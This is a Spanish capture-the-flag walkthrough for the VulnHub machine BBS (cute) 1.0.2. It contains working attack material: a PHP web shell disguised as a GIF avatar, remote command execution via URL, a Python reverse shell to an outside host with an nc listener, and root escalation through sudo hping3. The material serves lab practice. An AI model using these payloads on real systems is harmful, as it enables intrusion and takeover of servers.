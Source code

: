 <h1 align="center">
<br>
  <img src="https://media1.tenor.com/images/30b8dc5259183e941fff4ca89ee171b2/tenor.gif?itemid=15749033" alt="Front-End Checklist" width="200">
  <br>
  BBS (CUTE): 1.0.2
  <br>
</h1>

<h4 align="center">Maquina creada por foxlox</h4>
<h4 align="center">Aquí puedes descargarte la <a href="http://www.vulnhub.com/entry/bbs-cute-102,567/">página web</a> y ver una descripción de ella</h4>

---
# Índice

- [Recopilación de información](#recopilación-de-información)
  - [Nmap](#nmap)
  - [Web](#)
- [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades)
  - [Web](#)
- [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades)
  - [Remote Code Execution](#)
  - [Reverse Shell](#)
- [Post-explotación](#)
  - [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades-1)
       - [SUDO -L](#)
  - [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades-1)
       - [HPING3](#)
- [Información Adicional](#información-adicional)


---

## Recopilación de información

Aquí veremos que esta conectado a la subred, los puerto abiertos, las paginas web, etc.

### Nmap

Veremos que redes estan conectadas a esta subred con este comando:

```nmap -sP 192.168.56.0/24```

Para ver los puertos abiertos que tiene la red utilizaremos este comando:

```nmap -sV -sC 192.168.56.101```

Para ver si esos puertos son vulnerables usaremos este comando:

```nmap -Pn -T4 -p 80,88,110,995 --script vuln 192.168.56.101```

### Web

Iremos a la pagina **index.php** y usaremos **Ctrl+U** para ver el código fuente, veremos que el captcha tiene una .php y ademas veremos la versión del **Cutenews**

<img src="https://i.gyazo.com/ec8dc1b59c4ed97bf2bea3cf8ba8a6b8.png">

## Búsqueda de vulnerabilidades

### Web
Después de esto nos registraremos y buscaremos un exploit para esa versión del **Cutenews**

Encontramos este [exploit](https://www.exploit-db.com/exploits/48800) y nos aprovechamos del payload para meterlo como php en el avatar:

```
GIF8;
<?php system($_REQUEST['cmd']) ?>
```

> El **GIF8;** es para que tenga un tamaño y sea aceptado como avatar

## Explotación de vulnerabilidades

### Remote Code Execution

Para obtener la ejecución de código remoto iremos a esta página web para utilizar el exploit anteriormente visto:

```http://192.168.56.101/uploads/avatar_jose_script.php?cmd=whoami```

Gracias a esto somos **www-data**

### Reverse Shell

Ahora buscaremos una [reverse shell en python](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/)para tener permisos como usuario.
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

> Esto lo añadimos a la url anterior tal que asi: **?cmd=AQUI_LA_REVERSE_SHELL**

Por último abriremos un puerto para recibir la respuesta de la reverse shell:

```rlwrap nc -nvlp 1234```

## Post-explotación

Para tener una shell interactiva usaremos este comando:

```python3 -c 'import pty; pty.spawn("/bin/bash")'```

## Búsqueda de vulnerabilidades

### SUDO -L

Para ver que puede ejecutar este usuario como root usaremos el comando ```sudo -l```

El resultado es este:
```
(root) NOPASSWD: /usr/sbin/hping3 --icmp
```

## Explotación de vulnerabilidades

### HPING3

Aquí tienes una [web](https://tools.kali.org/information-gathering/hping3) donde explica las utilidades del hpin3.

Para tener root usaremos el comando tal cual y entraremos:
```sudo /usr/sbin/hping3 --icmp```

## Información Adicional

Páginas web utilizadas:

- [Exploit](https://www.exploit-db.com/exploits/48800) - Exploit Remote Code Execution del CuteNews 2.1.2.

- [Reverse Shell](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) - Cheat Sheet de reverse shells.

- [HPIN3](https://tools.kali.org/information-gathering/hping3) - Descripción del paquete hping3.


**[⬆ back to top](#-----hogwarts-bellatrix-)**
